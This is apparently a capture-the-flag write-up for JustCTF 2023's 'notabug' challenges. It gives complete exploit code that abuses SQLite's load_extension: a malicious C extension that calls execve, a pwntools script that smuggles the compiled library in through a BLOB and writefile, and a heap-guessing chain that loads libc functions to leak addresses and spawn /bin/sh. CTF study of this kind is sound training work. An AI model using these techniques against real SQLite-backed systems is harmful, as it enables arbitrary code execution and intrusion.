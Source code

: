 ```yaml
---
title: "[JustCTF-2023] notabug"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue

r3kapig, 1st

# noabug

There is a new feature for sqlite that allows loading external libcs.

For this challenge, we can create a new lib so we can just load a external lib to execute arbitrary command.


exp.c:
```c
/* Add your header comment here */
#include <stdio.h>
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

/* Insert your extension code here */

#ifdef _WIN32
__declspec(dllexport)
#endif
/* TODO: Change the entry point name so that "extension" is replaced by
** text derived from the shared library filename as follows:  Copy every
** ASCII alphabetic character from the filename after the last "/" through
** the next following ".", converting each character to lowercase, and
** discarding the first three characters if they are "lib".
*/
int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  int rc = SQLITE_OK;
  SQLITE_EXTENSION_INIT2(pApi);
  /* Insert here calls to
  **     sqlite3_create_function_v2(),
  **     sqlite3_create_collation_v2(),
  **     sqlite3_create_module_v2(), and/or
  **     sqlite3_vfs_register()
  ** to register the new features that your extension adds.
  */
  return rc;
}
void exp()
{
    execve("/tmp/readflag",0,0);
}
//select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');
//select Load_extension('/jailed/readflag','_start');
//select cast("\x01\x02\x03\x04" as text) ;
```

exp.py
```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./pwn')
import binascii
p = remote("0.0.0.0",13337)
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)
sla(b"> ",b"CREATE TABLE images(name TEXT, type TEXT, img BLOB);")
with open("./exp.so",'rb') as f:
    dt = f.read()
sla(b"> ",b"INSERT INTO images(name,type,img)")
dt = binascii.hexlify(dt)

print(dt.decode())

sla(b"> ",f"VALUES('icon','jpeg',cast(x'{dt.decode()}' as text));")
sla(b"> ",b"SELECT writefile('./exp.so',img) FROM images WHERE name='icon';")
sla(b"> ",b"select Load_extension('./exp','exp');")
p.interactive()
```

The above script works for the local one but not the remote one. My teammate found another way to compile it and make it work for the remote one.


# notabug2

We can also load libc.so.6 to execute arbitrary function but the parameters are fixed.

- Use puts to leak the PIE
- Guess the heap (1/0x2000) and build a fake structure on heap by function gets
- system /bin/sh


```py
from pwn import *

context.log_level='debug'
p = remote("notabug2.nc.jctf.pro",1337)

ru         = lambda a:     p.readuntil(a)
sla     = lambda a,b:     p.sendlineafter(a,b)

sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');")
ru(": \n")
PIE = u64(p.recvn(6).ljust(8,b'\x00'))
warning(hex(PIE))
pie_base = PIE - 0x1589a0
heap = 0x00005555556b0000-0x0000555555554000+pie_base # 1/0x2000
system_plt = pie_base + 0x10910

if pie_base > 0x600000000000:
    p.close()

warning(hex(pie_base))
sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','gets');")
p.sendline(p64(heap+0x11eb0)+b'a'*0x8+p64(pie_base+0x000000000009e0ad))
# raw_input()
dt = b"/bin/sh\0"+flat([0]*8)+ flat([0]*8)+ p64(system_plt)
sla(b"lite> ",f"select cast(x'{dt.hex()}' as text), ".encode()+b"Load_extension('"+p64(system_plt)[:6]+b"','/bin/sh');")
p.sendline(b"echo n132")
data = p.read(timeout=1)

if b'n132' in data:
    p.sendline("/jailed/readflag")
    p.read()
    input()
    p.interactive()
else:
    p.close()
```

# Epilogue

- Learned something about sqlite, pwning a complex binary.
- Practice some skills learned from bash-revenge
- Practice Beapoverflow